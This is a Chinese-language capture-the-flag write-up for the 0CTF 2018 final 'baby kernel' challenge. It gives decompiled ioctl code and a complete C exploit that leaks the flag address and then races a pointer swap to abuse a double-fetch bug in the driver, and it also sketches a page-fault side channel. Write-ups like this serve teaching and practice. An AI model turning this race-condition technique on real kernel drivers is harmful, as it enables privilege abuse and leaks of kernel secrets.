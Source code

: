 ```yaml
---
title: 0CTF final baby kernel
tags:
  - kernel
date: 2018/6/4
---
```


第一次做出kernel题，感谢大佬们的帮助orzorz

程序逻辑：

```
signed __int64 __fastcall baby_ioctl(__int64 a1, __int64 a2)
{
  __int64 v2; // rdx
  signed __int64 result; // rax
  int i; // [rsp-5Ch] [rbp-5Ch]
  __int64 v5; // [rsp-58h] [rbp-58h]

  _fentry__(a1, a2);
  v5 = v2;
  if ( a2 == 0x6666 )
  {
    printk("Your flag is at %px! But I don't think you know it's content\n", flag);
    result = 0LL;
  }
  else if ( a2 == 0x1337
         && !_chk_range_not_ok(v2, 0x10LL, *(__readgsqword(&current_task) + 0x1358))// a3 >= a1+a2
         && !_chk_range_not_ok(*v5, *(v5 + 8), *(__readgsqword(&current_task) + 0x1358))
         && *(v5 + 8) == strlen(flag) )
  {
    for ( i = 0; i < strlen(flag); ++i )
    {
      if ( *(*v5 + i) != flag[i] )
        return 22LL;
    }
    printk("Looks like the flag is not a secret anymore. So here is it %s\n", flag);
    result = 0LL;
  }
  else
  {
    result = 14LL;
  }
  return result;
}
```

程序通过ioctl来做交互

```
int fd = open("/dev/baby",0);
int ret = ioctl(fd,0x6666);
```

这样就能触发上面的打印flag地址。

通过ida我们知道flag长度为33字节，但内容本地和远程肯定是不同的，而flag放在内核态，因此我们没法直接看到。

当第二个参数为0x1337时，v5是我们传入的第三个参数，是一个如下的结构体
```
struct t{
	char * flag;
	size_t size; 
};
```

这个`_chk_range_not_ok`是判断a1+a2是否小于a3。

但a3这个值我们不好直接看出来。可以尝试调试一下，调试方法可以见上一篇环境配置。

![](kernel_5ba197ee799db9ceec3ec7b42eaba522.png)

通过观察，我们推测上面这个判断是判断v5以及v5->flag是否为用户态，非用户态则直接返回。

那这里就有两种做法了。

第一种是正解，因为这里有一个**double fetch**的洞。

![](kernel_fa1eb17766936af85c599c8428a7e704.png)

这两块其实是分开的，也就是说v5和v5->flag在上面进行了范围的判断，通过后再通过v5获取v5->flag进行内容的判断，而我们可以在这两部中间进行竞争，通过上面的检查后就把v5->flag偷换成内核中真正flag的地址。从而自身与自身做比较，通过检查得到flag。

exp：

```cpp
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>

#define TRYTIME 0x1000

char s[] =   "flag{AAAA_BBBB_CC_DDDD_EEEE_FFFF}";
//char s2[] = "flag{THIS_WILL_BE_YOUR_FLAG_1234}";

struct t{
	char * flag;
	size_t size; 
};


char* flagaddr=NULL;

int finish = 0;

void * run_thread(void * vvv)
{	
	struct t* v5 = vvv;
	while(!finish) {
		v5->flag = flagaddr;
	}	
	
}

int main(){
	
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
	setvbuf(stderr,0,2,0);

	printf("{==DBG==} this is exp :p\n\n");

	int fd = open("/dev/baby",0);
	printf("{==DBG==} fd: %d\n",fd);
	int ret = ioctl(fd,0x6666);

	scanf("%px",&flagaddr);
	printf("{==DBG==} get addr: %p\n",flagaddr);

	struct t * v5 = (struct t * )malloc(sizeof(struct t));

	v5->size = 33;
	v5->flag = s;

	pthread_t t1;

	pthread_create(&t1, NULL, run_thread,v5);

	for(int i=0;i<TRYTIME;i++){
		ret = ioctl(fd, 0x1337, v5);
		if(ret != 0){
			//printf("{==DBG==} ret: %d\n",ret);
			printf("{==DBG==} addr: %p\n",v5->flag);
		}else{
			goto end;
		}
		v5->flag = s;
	}
end:
	finish = 1;

	pthread_join(t1, NULL);
	close(fd);

	return 0;
}
```

偷鸡的解法可以用侧信道来做。当然我的做法不是特别好。

![](kernel_be98acba57db480bbc0d46c6b48ffa35.png)

i++以后，*v5+i不一定是一个实际存在的地址，只需将flag写在page的末尾即可，这样如果正确，执行i++后，接下来就会触发pagefault，从而得知一位flag。然后逐位得到flag。

如果有比较正常的侧信道做法，希望大佬能够告诉我一下。
